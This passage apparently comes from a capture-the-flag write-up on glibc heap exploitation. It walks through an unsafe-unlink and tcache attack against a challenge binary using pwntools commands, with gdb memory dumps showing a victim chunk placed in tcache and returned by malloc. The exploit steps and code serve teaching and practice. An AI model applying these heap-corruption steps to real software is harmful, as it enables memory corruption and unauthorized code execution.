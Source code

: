 Let's trigger our unsafe unlink and send our victim to tcache.

```py
add(0,'a'*0x217)
```

Now see the magic.

```sh
gdb-peda$ x/50gx 0x0000555555559000
0x555555559000:	0x0000000000000000	0x0000000000000251
0x555555559010:	0x0000000000000000	0x0000000000000000
0x555555559020:	0x0000000000000000	0x0000000000000000
0x555555559030:	0x0000000000000007	0x0000000000000000
0x555555559040:	0x0000000000000000	0x0000000000000000
0x555555559050:	0x0000000000000000	0x0000000000000000
0x555555559060:	0x0000000000000000	0x0000000000000000
0x555555559070:	0x0000000000000000	0x0000000000000000
0x555555559080:	0x0000000000000000	0x0000000000000000
0x555555559090:	0x0000000000000000	0x0000000000000000
0x5555555590a0:	0x0000000000000000	0x0000000000000000
0x5555555590b0:	0x0000000000000000	0x0000000000000000
0x5555555590c0:	0x0000000000000000	0x0000000000000000
0x5555555590d0:	0x0000000000000000	0x0000000000000000
0x5555555590e0:	0x0000000000000000	0x0000000000000000
0x5555555590f0:	0x0000000000000000	0x0000000000000000
0x555555559100:	0x0000000000000000	0x0000000000000000
0x555555559110:	0x0000000000000000	0x0000000000000000
0x555555559120:	0x0000000000000000	0x0000000000000000
0x555555559130:	0x0000000000000000	0x0000000000000000
0x555555559140:	0x0000000000000000	0x0000000000000000
0x555555559150:	0x00007ffff7fefec8	0x0000000000000000 -> Our victim chunk landed on tcache
```

With yet another malloc call , we get our victim chunk back.
The binary poses a constraint here , we can malloc only when the 0x220 tcache is filled.
So let's do that first and then call malloc.


```py

add(1,'T'*0x217)
gdb.attach(io)
free(1) #Refill tcache
add(2,'P'*0x300) #Padding chunk to prevent top consolidation
```

Finally call malloc and get victim.

```py
io.sendlineafter("> ",'50056')
io.sendline('a')
```
And Boom , malloc gives us our victim chunk back.

```sh
RAX: 0x7ffff7fefec8 --> 0x55555555a140 --> 0x555555559f20 --> 0x555555559d00 --> 0x555555559ae0 --> 0x5555555598c0 (--> ...)

```
We can see the return value of malloc in `RAX` register , which is nothing but our victim chunk.
